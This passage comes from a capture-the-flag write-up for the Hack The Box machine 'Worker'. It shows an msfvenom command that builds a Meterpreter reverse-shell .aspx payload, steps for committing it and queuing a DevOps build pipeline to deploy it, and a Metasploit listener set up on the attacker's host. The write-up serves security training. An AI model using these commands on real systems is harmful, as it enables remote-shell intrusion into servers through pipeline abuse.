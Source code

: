 ![[Worker_HTB/6.png]]

Create payload with msfvenom
```sh
┌──(kali㉿kali)-[~/boxes/htb/worker]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.12 LPORT=443 -f aspx -o test.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of aspx file: 3645 bytes
Saved as: test.aspx
```

Browse to the file, select the payload just created and then click on commit.

![[Worker_HTB/7.png]]


Now that the .aspx file has been added to the branch, I needed to go to pipelines and queue the build with the branch just created. This took me a little to figure out, as just completing a pull request did not upload the payload. Navigate to Pipelines, select the correct repository and click on Queue in the upper right hand corner, shown in the image below. The user currently is able to queue a build, but not create a new build.

![[Worker_HTB/8.png]]

Select the correct branch that was created, and click on queue at the bottom.

![[Worker_HTB/9.png]]



Within the pipeline section of the devops site, I found this page that showed the target folder of the build (bottom right), note the w:\.

![[Worker_HTB/10.png]]


adding another line to /etc/hosts (spectral.worker.htb) I was able to view the site.

![[Worker_HTB/11.png]]

Before we visit the page containing the aspx payload, set up a listener with msfconsole

```sh
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.12
LHOST => 10.10.14.12
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.12:443 
```
